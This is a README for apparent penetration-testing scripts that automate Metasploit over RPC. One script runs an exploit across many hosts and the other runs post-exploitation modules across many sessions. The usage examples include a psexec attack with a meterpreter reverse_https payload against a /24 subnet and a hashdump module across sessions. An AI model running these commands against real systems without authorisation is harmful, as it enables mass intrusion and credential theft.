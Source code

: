 # MsfMulti

`msfmulti.py` is a script meant to run a given metasploit exploit against 
multiple targets. It is particularly useful during large scope engagements.


## Dependencies

* msgpack-python
* requests


## Usage

The script relies on Metasploit's RPC interface, before using it make sure you 
have loaded the `msgrpc` module from the console with the `load msgrpc` command.

Before running this script, you must also have started the payload handler as a 
job from the console (with `ExitOnSession` set to `false`).

Example:

```text
$ ./multisploit.py -e windows/smb/psexec -p windows/meterpreter/reverse_https \
-t 192.168.1.0/24 --opts='LHOST=192.168.1.16,LPORT=443'
```

Full help:

```text
usage: multisploit.py [-h] -e EXPLOIT -p PAYLOAD -t TARGETS [--opts OPTIONS]
                       [--rpc-host HOST] [--rpc-port PORT] [--rpc-user USER]
                       [--rpc-passwd PASSWD] [--rpc-ssl]
 
 Metasploit mass exploitation utility
 
 optional arguments:
   -h, --help            show this help message and exit
   -e EXPLOIT, --exploit EXPLOIT
                         exploit to run against targets
   -p PAYLOAD, --payload PAYLOAD
                         payload to use with the exploit
   -t TARGETS, --targets TARGETS
                         comma-separated list of IPs/CIDRs
   --opts OPTIONS        comma-separated options to pass to the exploit
 
 MSFRPC connection:
   --rpc-host HOST       MSFRPC host (default: 127.0.0.1)
   --rpc-port PORT       MSFRPC port (default: 55552)
   --rpc-user USER       user to use to connect to MSFRPC (default: msf)
   --rpc-passwd PASSWD   password to use to connect to MSFRPC (default: msf)
   --rpc-ssl             use SSL to connect to MSFRPC (default: False)
```

### multipost.py

Run a given `post` module against multiple sessions.

Example:

```text
$ ./multipost.py -m windows/gather/hashdump -s 1-10,12,14-18
```

Full help:

```text
usage: multipost.py [-h] -m MODULE -s SESSIONS [--opts OPTS] [--rpc-host HOST]
                    [--rpc-port PORT] [--rpc-user USER] [--rpc-passwd PASSWD]
                    [--rpc-ssl]

Metasploit mass post-exploitation utility

optional arguments:
  -h, --help            show this help message and exit
  -m MODULE, --module MODULE
                        post module to run
  -s SESSIONS, --sessions SESSIONS
                        comma-separated list of sessions and/or session-ranges
  --opts OPTS           comma-separated options to pass to the post module

MSFRPC connection:
  --rpc-host HOST       MSFRPC host (default: 127.0.0.1)
  --rpc-port PORT       MSFRPC port (default: 55552)
  --rpc-user USER       user to use to connect to MSFRPC (default: msf)
  --rpc-passwd PASSWD   password to use to connect to MSFRPC (default: msf)
  --rpc-ssl             use SSL to connect to MSFRPC (default: False)
```
